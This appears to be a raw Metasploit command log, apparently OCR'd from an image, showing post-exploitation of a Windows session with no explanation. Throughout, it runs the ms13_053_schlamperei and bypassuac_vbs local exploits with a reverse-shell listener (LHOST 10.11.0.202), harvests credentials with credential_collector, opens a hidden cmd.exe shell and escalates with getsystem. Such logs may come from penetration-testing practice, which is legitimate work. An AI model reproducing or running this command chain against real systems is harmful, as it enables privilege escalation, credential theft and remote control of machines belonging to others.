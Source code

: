 info

use post/windows/local

use exploit/windows/local/ms13_053_schlamperei 

show options

set session 3

run

show options

set LHOST 10.11.0.202

set LPORT 2228

run

use post/windows/gather/credentials/credential_collector 

set session 3

run

sessions -i 3

execute -f cmd.exe -i -H

background

search bypassuac_vbs

use exploit/windows/local/bypassuac_vbs

show options

set session 3

run

show options

set LHOST 10.11.0.202

set LPORT 3331


exploit

search getsystem

use post/windows/escalate/getsystem

show options

set session 3

run

show technique

show -h

use exploit/windows/local/bypassuac_vbs
